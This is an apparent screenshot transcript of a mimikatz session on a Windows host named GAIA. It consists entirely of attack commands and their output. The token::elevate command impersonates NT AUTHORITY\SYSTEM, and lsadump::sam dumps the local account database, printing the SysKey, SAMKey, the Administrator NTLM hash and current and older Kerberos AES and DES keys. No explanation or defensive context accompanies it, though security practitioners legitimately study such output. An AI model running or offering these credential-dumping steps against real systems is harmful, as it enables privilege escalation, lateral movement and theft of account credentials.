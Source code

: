 ```
             rdm  -  RF module for RDM(830 AL) device
             acr  -  ACR Module

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

676     {0;000003e7} 1 D 24790          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;001ffd0e} 1 F 2225029     GAIA\adm1n      S-1-5-21-1966530601-3185510712-10604624-1009    (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2261912     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: c16444961f67af7eea7e420b65c8c3eb

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : efd8f5fd23c3b910ef609e3e872276c8

* Primary:Kerberos-Newer-Keys *
    Default Salt : CHANGE-MY-HOSTNAMEAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : c3bfc4a1912ab98abb75ad9d11aa511e30673f6c495066a811032df9756b9f3e
      aes128_hmac       (4096) : 6fbcc5a35c6507e1dd2c51521557b3b6
      des_cbc_md5       (4096) : 9ba7cdb3972013cd
    OldCredentials
      aes256_hmac       (4096) : 9484aadacd6c5994aed633bf92b6b3db31c57c932d2cd84a7fa635a0b3262806
      aes128_hmac       (4096) : cdda685dd630dd0796e5ddf38e22dce5
      des_cbc_md5       (4096) : 08340db613fb46b5
    OlderCredentials
      aes256_hmac       (4096) : 50141e3b3b449512e393a66c32e7f89a131744eef5d8a3f6a8576919a810cda3
      aes128_hmac       (4096) : 0d717b42dbaf77bb7248b4bebf8bb3a6
      des_cbc_md5       (4096) : bc23a20170542f25

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : CHANGE-MY-HOSTNAMEAdministrator
    Credentials
      des_cbc_md5       : 9ba7cdb3972013cd
    OldCredentials
      des_cbc_md5       : 08340db613fb46b5


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount
```